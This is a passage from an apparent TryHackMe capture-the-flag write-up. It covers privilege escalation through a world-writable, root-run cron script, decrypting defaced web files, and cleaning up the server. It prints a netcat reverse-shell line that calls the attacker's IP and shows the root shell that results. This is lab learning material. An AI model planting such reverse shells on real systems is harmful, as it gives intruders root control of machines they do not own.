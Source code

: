 ```
[-] Files not owned by user but writable by group:
-rwxrwxrwx 1 root root 11 Oct 10 10:48 /opt/brilliant_script.sh
-rwxrwxrwx 1 root root 23176 Jun 17 21:21 /lib/x86_64-linux-gnu/liblogging.so
```
Let’s see who the evil cron job runs as. By adding a reverse shell to the brilliant script:

```
nc -e /bin/sh 10.8.108.247 4444
```
BOOM! We are root.

```
$ nc -vlp 4444
listening on [any] 4444 …
10.10.205.76: inverse host lookup failed: Unknown host
connect to [10.8.108.247] from (UNKNOWN) [10.10.205.76] 36540
whoami
root
cat /opt/.fixutil/backup.txt
__REDACTED__
```
Had to write a C program to do the decrypting since didn’t find anything useful on the system. It’s been a while, sorry about the mess.
{% gist 6c46e84fe60c0e6cc00f0d735435a7bc %}

```bash
gcc -o xor xor.c
```
now we can restore the three files:

```
./xor key1 < /usr/local/apache2/htdocs/index.html > /tmp/index.html
./xor key1 < /usr/local/apache2/htdocs/reallyimportant.txt > /tmp/reallyimportant.txt
./xor key1 < /usr/local/apache2/htdocs/todo.html > /tmp/todo.html
cp /tmp/index.html /usr/local/apache2/htdocs/index.html
cp /tmp/reallyimportant.txt /usr/local/apache2/htdocs/reallyimportant.txt
cp /tmp/todo.html /usr/local/apache2/htdocs/todo.html
```
There is a much more elegant way. I know. But hey, there is a flag for reward!

```
Flag 5: THM{__REDACTED_}
```

# Cleaning up the server
Restore the right shared library:
```
mv /lib/x86_64-linux-gnu/oldliblogging.so /lib/x86_64-linux-gnu/liblogging.so
```
Award Flag 2: Flag 2: THM{__REDACTED__} .

Remove SSH key from authorized_keys:
```
rm /root/.ssh/authorized_keys
```
